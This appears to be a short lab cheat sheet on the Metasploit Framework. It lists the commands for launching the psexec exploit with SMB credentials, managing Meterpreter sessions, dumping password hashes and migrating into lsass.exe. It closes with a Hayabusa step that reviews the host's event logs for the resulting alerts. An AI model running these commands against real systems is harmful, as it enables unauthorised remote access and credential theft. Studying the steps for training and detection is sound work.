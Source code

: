 # Metasploit Framework Notes

```
msfconsole -q
show exploits
search type:expliot psexec
info exploit/windows/smb/psexec
use exploit/windows/smb/psexec
set PAYLOAD
show options
set RHOSTS <IP>
set SMBUser <user>
set SMBPASS <pass>
set LHOST <IP>
show options
exploit
```

session management

```
background
sessions
sessions 1
sysinfo
execute -if systeminfo
getuid
ps
getpid
```

dumping hashes with msf

```
hashdump
```

process migration

```
getpid
ps
migrate -N vmtoolsd.exe
sysinfo
getpid
```

process migration for privesc

```
migrate -N lsass.exe
hashdump
```

analyzing this on the host with hayabusa

```
.\hayabusa csv-timeline -o metasploit-psexec.csv -l
Import-Csv -Path .\metasploit-psexec.csv | Where-Object -Property Level -Cin "crit","high" | Select-Object Timestamp,Level,RuleTitle
```

